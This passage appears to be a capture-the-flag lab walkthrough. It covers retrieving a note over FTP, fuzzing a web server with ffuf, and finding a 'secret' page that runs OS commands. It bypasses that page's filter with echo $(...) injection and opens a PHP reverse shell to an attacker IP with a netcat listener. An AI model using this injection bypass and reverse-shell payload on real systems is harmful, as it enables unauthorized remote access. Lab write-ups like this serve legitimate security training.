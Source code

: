 ```
230 Login successful.
ftp> binary
200 Switching to Binary mode.
ftp> get note.txt
```
`note.txt` contains:
```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```
Let's fuzz the HTTP server:
```
ffuf -u http://10.10.204.221/FFUF -H 'Host: 10.10.204.221' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0)
 Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Acc
ept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: keep-alive' -H 'Referer: http://10.10.204.221/contact.ht
ml' -H 'Upgrade-Insecure-Requests: 1' -H 'DNT: 1' -H 'Sec-GPC: 1' -w $SECLISTS/Discovery/Web-Content/directory-list-2.3-small.txt:FFUF

images                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 685ms]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 38ms]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 39ms]
fonts                   [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 40ms]
secret                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 36ms]
```
By vising `secret` page, we get a field we can use to execute OS commands.

If we type a command, we get a string "Are you a hacker?". For bypassing it, try to type `echo $(<command>)`, for example:
```
echo $(whoami)

www-data
```
Let's try to get a reverse shell. Run `nc -lvnp 4444` on your terminal and inside the website type:
```
echo $(php -r '$sock=fsockopen("10.18.98.39",4444);exec("sh <&3 >&3 2>&3");')
```
Note: we used PHP command because we checked by `echo $(php --version)` that `php` was installed, while Bash didn't work and Python was not installed.

## Phase 2: Foothold

Inside the reverse shell, run:
```
script /dev/null -c bash

ls -la /var/www/

total 16
drwxr-xr-x  4 root root 4096 Oct  3  2020 .
drwxr-xr-x 14 root root 4096 Oct  3  2020 ..
drwxr-xr-x  3 root root 4096 Oct  3  2020 files
drwxr-xr-x  8 root root 4096 Oct  3  2020 html
```
